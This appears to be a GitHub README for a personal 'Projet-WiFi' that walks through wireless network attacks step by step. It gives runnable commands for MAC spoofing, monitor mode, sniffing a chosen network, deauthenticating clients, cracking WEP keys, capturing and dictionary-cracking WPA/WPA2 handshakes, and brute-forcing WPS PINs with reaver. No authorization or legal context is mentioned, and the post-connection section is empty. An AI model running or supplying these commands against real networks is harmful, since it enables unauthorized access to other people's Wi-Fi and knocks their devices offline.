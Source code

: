 # Projet-WiFi

* Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2.

### Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

### Pre-connection attacks
1. Discover networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff packet from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentication attack (disconnect any device from the network):

This attack will always work ! The only way around it is to change the MAC address on the target machine.
```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```

### Gaining access

1. WEP cracking (100% successful):
   
   Each packet is encrypted using a unique key stream. A random initialization vector (IV) is used to generate the keys stream. This initialization vector is only 24 bits long.
   The IV is too small and sent in plain text, so in busy networks, IV's will repeat, making it vulnerable to statistical attacks. Therefore, the key stream can be determined      and the encryption broken.

   To crack WEP, we need a large number of packets/IVs to analyse the IVs and crack the router's key.

   Step 1: capture a large number of packets
   ```
   airodump-ng --bssid MAC --channel N --write file_name wireless_adapter_name
   ```
   
   Step 2: run aircrack-ng to crack the password
   ```
   aircrack-ng .cap_file_captured_previously
   ```
   Gets cracked instantly !
   
2. WPA/WPA2 cracking:
   
   The goal is to capture the handshake (4 packets) between the router and a device.
   
   Step 1: run a deauthentication attack against a device connected to the router and wait for him to connect back to it OR wait for a new client to connect.
           Catch the handshake using "airodump-ng".         
           
           The handshake doesn't contain data that helps recover the key, but it contains data that can be used to check if a key is valid or not !
           useful infos in the handshake - MIC (Message Integrity Code): SP address, STA address, AP nonce, STA nonce, EAPOL, Payload
   
   Step 2:



   Create a wordlist/dictionnary: "crunch" command
              ex: "crunch 6 8 abc123 -o wordlist.txt" --> creates a wordlist of length 6 to 8 with characters abc123 in a file called wordlist.txt
              "-d 1@" no repeating letter

   combining the useful infos to the words in the wordlist with create new MICs and they will be compared to the real MIC
   if(MIC* == MIC), then the word generating this MIC is the password !

   To try this, run: aircrack-ng file_.cap_containing_handshake -w word_list


   Another method: exploit WPS feature (except if PBC is enabled: Push Button Authentication)
   allows clients to connect without a password
   authentication is done using a 8 digit pin

   wash --interface wlan0 : allows to see each router which has WPS enabled

   launch "reaver --bssid router_addr --channel channel_number --interface wlan0 -vvv (verbose) --no-associate (we try to brute force manually cuz bugs with reaver)"
   then "aireplay-ng --fakeauth 30 -a router_addr -h AR9271_addr wlan0"

   PIN get cracked in under a minute

### Post-connection attacks

✔️

